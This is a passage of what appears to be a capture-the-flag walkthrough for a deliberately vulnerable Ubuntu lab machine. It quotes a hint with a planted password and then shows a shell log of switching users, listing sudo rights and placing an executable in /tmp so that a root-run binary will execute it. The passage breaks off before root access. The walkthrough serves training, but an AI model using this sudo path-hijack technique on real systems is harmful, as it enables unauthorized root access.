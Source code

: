 I know you are the fan of ippsec.

So convert string "ippsec" into md5 hash and use it to gain yourself in your real form.

https://www.devglan.com/online-tools/aes-encryption-decryption

Dont worry saket one day we will reach toour destination very soon. And if you forget your username then use your old password==> "tribute_to_ippsec"Victor,

www-data@ubuntu:/home/saket$ su saket
su saket
Password: tribute_to_ippsec

saket@ubuntu:~$ sudo -l
sudo -l
Matching Defaults entries for saket on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saket may run the following commands on ubuntu:
    (root) NOPASSWD: /home/victor/undefeated_victor
saket@ubuntu:~$ file /home/victor/undefeated_victor
file /home/victor/undefeated_victor
/home/victor/undefeated_victor: setuid executable, regular file, no read permission

saket@ubuntu:~$ sudo -u root /home/victor/undefeated_victor
sudo -u root /home/victor/undefeated_victor
if you can defeat me then challenge me in front of you
/home/victor/undefeated_victor: 2: /home/victor/undefeated_victor: /tmp/challenge: not found

saket@ubuntu:~$ cd /home/victor
cd /home/victor
saket@ubuntu:/home/victor$ ls -lash
ls -lash
ls: cannot open directory '.': Permission denied
saket@ubuntu:/home/victor$ echo fuckyou > /tmp/challenge
echo fuckyou > /tmp/challenge
saket@ubuntu:/home/victor$ sudo -u root /home/victor/undefeated_victor
sudo -u root /home/victor/undefeated_victor
if you can defeat me then challenge me in front of you
/home/victor/undefeated_victor: 2: /home/victor/undefeated_victor: /tmp/challenge: Permission denied
saket@ubuntu:/home/victor$ ls -lash /tmp
ls -lash /tmp
total 52K
4.0K drwxrwxrwt 11 root  root  4.0K May 25 05:17 .
4.0K drwxr-xr-x 24 root  root  4.0K Aug 29  2019 ..
4.0K -rw-rw-r--  1 saket saket    8 May 25 05:17 challenge
4.0K drwxrwxrwt  2 root  root  4.0K May 25 03:49 .font-unix
4.0K drwxrwxrwt  2 root  root  4.0K May 25 03:49 .ICE-unix
4.0K drwx------  3 root  root  4.0K May 25 03:49 systemd-private-2a0f1cb6de0f42d8a22c7e1399dcb7ef-colord.service-gxFdBJ
4.0K drwx------  3 root  root  4.0K May 25 03:49 systemd-private-2a0f1cb6de0f42d8a22c7e1399dcb7ef-rtkit-daemon.service-tbGxx5
4.0K drwx------  3 root  root  4.0K May 25 03:49 systemd-private-2a0f1cb6de0f42d8a22c7e1399dcb7ef-systemd-timesyncd.service-LK4qDN
4.0K drwxrwxrwt  2 root  root  4.0K May 25 03:49 .Test-unix
4.0K drwxrwxrwt  2 root  root  4.0K May 25 03:49 VMwareDnD
4.0K -r--r--r--  1 root  root    11 May 25 03:49 .X0-lock
4.0K drwxrwxrwt  2 root  root  4.0K May 25 03:49 .X11-unix
4.0K drwxrwxrwt  2 root  root  4.0K May 25 03:49 .XIM-unix
saket@ubuntu:/home/victor$ chmod +x /tmp/challenge
chmod +x /tmp/challenge
saket@ubuntu:/home/victor$ sudo -u root /home/victor/undefeated_victor
sudo -u root /home/victor/undefeated_victor
if you can defeat me then challenge me in front of you
/tmp/challenge: 1: /tmp/challenge: fuckyou: not found